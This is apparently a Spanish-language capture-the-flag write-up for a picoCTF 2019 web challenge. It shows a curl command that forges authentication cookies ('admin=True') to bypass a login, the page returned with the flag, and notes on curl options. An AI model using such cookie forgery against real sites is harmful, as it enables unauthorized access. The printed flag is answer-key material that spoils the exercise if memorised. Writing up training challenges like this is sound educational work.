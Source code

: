 ## Descripción
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/13594/` ([link](https://jupiter.challenges.picoctf.org/problem/13594/)) or http://jupiter.challenges.picoctf.org:13594

## Hints
+ Hmm it doesn't seem to check anyone's password, except for Joe's?

## Solución
``` bash
┌─[ramdark@parrot]─[~]
└──╼ $curl https://jupiter.challenges.picoctf.org/problem/13594/flag -H "Cookie: username=admin; password=123; admin=True"
<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>

</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>

        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>Flag</b>: <code>picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef}</code></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
</body>

</html>┌─[ramdark@parrot]─[~]
└──╼ $


```


## Flag

``` picoCTF{th3_c0nsp1r4cy_l1v3s_d1c24fef} ```


## Notas adicionales
Dado que no se valida cualquier otro usuario, se logea con cualquier usuario en este caso se utilizó "admin" con el password "123", posteriormente se analizan las cookies que se envian utilizando la herramienta de inspección del navegador, ya una vez teniendo las cookies se hace uso de los siguientes comandos. 
Se hace uso del analisis de cada encabezado, en este caso se explota la cookies. 


|Comando | Descripcion |
|------------ | ------------|
| curl | funciona como una forma de verificar la conectividad a las URL y para transferir datos|
|-H |enviar un encabezado|
|-s| modo silencioso |
|-L |sigue la redirección  |



## Referencias
+ [HTTP cookie](https://en.wikipedia.org/wiki/HTTP_cookie)
+ [Headers HTTP](https://diego.com.es/headers-del-protocolo-http)
+ [curl](https://www.hostinger.mx/tutoriales/comando-curl)